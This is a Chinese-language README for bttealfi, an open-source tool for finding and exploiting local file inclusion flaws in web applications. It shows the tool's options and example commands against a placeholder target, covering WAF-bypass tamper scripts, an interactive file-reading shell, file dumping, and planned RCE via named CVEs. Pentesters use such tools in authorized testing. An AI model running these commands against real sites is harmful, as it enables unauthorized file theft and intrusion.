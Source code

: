 本專案採用 GNU 通用公共授權 v2.0 (GPLv2) 授權。
詳情請參閱"LICENSE.txt"文件。

# bttealfi
![](lib/data/img/logo.png)

bttealfi 是一款開源滲透測試工具，可自動偵測並利用LFI漏洞，有豐富的參數，他使用一些內文檢測技術來嘗試挖掘潛在弱點，並且使用了與sqlmap相似的參數，如果滲透測試人員非常了解LFI弱點，您可以利用CVE-2024-4577來列舉文件(如果因WAF導致無法RCE)，或者具有SQL注入到LFI的權限，此工具可節省部分時間在列舉或下載文件，使其進一步洩漏目標資訊與弱點。

# 截圖
![](lib/data/img/bttealfi_screenshot.png)

# 安裝

`git clone https://github.com/BTtea/BTteaLFI.git`

僅支援 Python 3.x 版本

# 使用

```
$ python bttealfi.py -h
usage: bttealfi.py [-h] [--version] -u URL [--data DATA] [--method METHOD] [--cookie COOKIE] [-H HEADER]
                   [--random-agent] [--tamper TAMPER] [-v DEBUG_LEVEL] [--os OS type] [--prefix PREFIX]
                   [--suffix SUFFIX] [--technique TECHNIQUE] [--php-wrapper PHP_WRAPPER] [--level {1,2,3}]
                   [--backend-app {all,php,aspx,jsp}] [--batch] [--answer ANSWER] [--move Number]
                   [--retries Number] [--path-depth Number] [--skip-xss] [--test-skip Prompt] [--flush-session]
                   [--lfi-shell] [--detect-prefix DETECT_PREFIX] [--detect-suffix DETECT_SUFFIX] [--dump]
                   [--timeout Number] [-p PARAM | --skip PARAM]

options:
  -h, --help            show this help message and exit
  --version             Show program's version number and exits
  -u URL, --url URL     input URL
  --data DATA           POST data
  --method METHOD       Method
  --cookie COOKIE       cookie session
  -H HEADER, --header HEADER
                        headers
  --random-agent        Use randomly selected HTTP User-Agent header value
  --tamper TAMPER       tamper file
  -v DEBUG_LEVEL        debug information
  --os OS type          Specify the backend operating system
  --prefix PREFIX       Specify prefix
  --suffix SUFFIX       Specify suffix
  --technique TECHNIQUE
                        Specify testing techniques, Support RP, AP, and PHP_F options.
  --php-wrapper PHP_WRAPPER
                        Default test keywords for 'php://filter'
  --level {1,2,3}       File type detection level — the higher the level, the more file types can be detected.
                        Default: 1
  --backend-app {all,php,aspx,jsp}
                        Web backend technology (php, asp, jsp). Default: all.
  --batch               Never ask for user input, use the default behavior
  --answer ANSWER       Set predefined answers (e.g. "quit=N,follow=N")
  --move Number         Number of path traversal levels, default is 5
  --retries Number      Number of retries on connection failure, default is 3
  --path-depth Number   Traversal range for testing LFI path depth, default is 0
  --skip-xss            Skip XSS payload testing
  --test-skip Prompt    Skip payload tests for the specified prompt.
  --flush-session       Flush session files for current target
  --lfi-shell           Prompt for an interactive LFI shell
  --detect-prefix DETECT_PREFIX
                        Context prefix for LFI file output
  --detect-suffix DETECT_SUFFIX
                        Context suffix for LFI file output
  --dump                Convert text output into a download
  --timeout Number      Time to wait for the web page response, default is 5 seconds
  -p PARAM              Specify parameters
  --skip PARAM          skip parameters
```

* 基本參數，注入點請用'*'標記

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch`

  * POST

    `python bttealfi.py -u "http://target/vuln.php" --data "page=*" --batch`
  
  * JSON

    `python bttealfi.py -u "http://target/vuln.php" --data '{"page":"*"}' --batch`

* 清除成功注入紀錄

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch --flush-session`

* 你可以加上 -v 參數來設定顯示的訊息詳細內容 [0-6]

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3`

* 你可以透過參數--move來設置路徑移動的深度，預設為5

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --move 5`

  如果你已經知道路徑深度，不想遍歷，可以使用--depth-path

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --depth-path 8`

* 你可以使用--test-skip 來指定提示訊息來跳過不想測試的負載，例如info中出現passwd或relative path access的訊息

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --test-skip "passwd,relative path access"`

* 你可以透過新增前後綴來自定義注入的payload

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --prefix "test/" --suffix "%00"`

* 如果目標存在WAF或者過濾器，可以使用參數 --tamper 來飲用以定義的繞過腳本，你也可以自己根據規則撰寫並使工具引用，如須繞過多種規則也可以將腳本用逗號隔開一起使用(腳本轉換使用先進先出)

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --tamper dotslashobfuscate,base64encode`

* 當你成功利用目標並列出payload時，可以使用 --lfi-shell 參數來方便列舉目標系統上的檔案

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --lfi-shell`

  如果目標的回應訊息太多多餘資訊，影響原本獲取的文件內容，可配合使用 --detect-prefix 與 --detect-suffix 來指定要捕捉的內容範圍

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --lfi-shell --detect-prefix "內容前綴" --detect-suffix "內容後綴"`

  如果不需要顯示內容，或者你可能只是要下載一些二進制文件，可以配合使用 --dump 參數來將輸入的檔案自動儲存至本地

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --lfi-shell --dump`

# 一些演示截圖
#### 使用除錯參數
![](lib/data/img/debug.png)

#### 自定義前後綴
![](lib/data/img/prefix_suffix.png)

#### 使用`--lfi-shell`參數來快速遍歷檔案內容
![](lib/data/img/lfi_shell.png)

#### 使用`--detect-prefix`來定義前綴用以限制捕捉的內容，並使用`--dump`來將取得的內容儲存在本地(不顯示)，並且使用`--answer`來定義有出現提問時來指定所選的回應
![](lib/data/img/lfi_shell_detect_prefix_dump_answer.png)


# 心得筆記
sqlmap真的是一款完美且優秀的工具，使我在滲透上的工作變的便利且快速，然而卻沒有一款針對LFI的自動化工具真正讓我覺得好用，並且我也厭倦了每一次發現LFI弱點都需要重新設計利用腳本，因此，我開啟的這個專案並根據自身經驗，參考sqlmap上的一些運作行為，來嘗試將LFI利用武器化，而我認為不直接參考sqlmap程式碼是我給自己的一種挑戰，每完成一個功能便越來越覺得sqlmap是一個真正厲害且優雅的工具。

然而此專案並非我預期的結果，有許多我想實現但尚未實作進去的功能(皆因自身程式設計經驗不足所導致後期程式碼難以維護)，事實上，我將計畫準備進行第四次重構😉。


# 未來開發目標
* 重構程式碼並將可以模組化的功能以及冗長的寫法進行優化
* 新增4096(linux)與256(windows)後綴截斷測試技術
* 新增RFI，SSRF測試技術
* 新增各種包裝器偵測技術
* 新增參數 --phpinfo
* 新增關鍵參數 --os-shell
* --os-shell功能衍伸
  * 可根據所有已檢測到的技術進行每種技術的RCE利用
  * 新增pearcmd.php的偵測與利用
  * 新增CVE-2012-1823的偵測與利用
  * 新增CVE-2024-4577的偵測與利用
  * 新增CVE-2024-2961的偵測與利用
  * 新增phpinfo.php的條件競爭利用
  * 新增Session Upload Progress的條件競爭利用
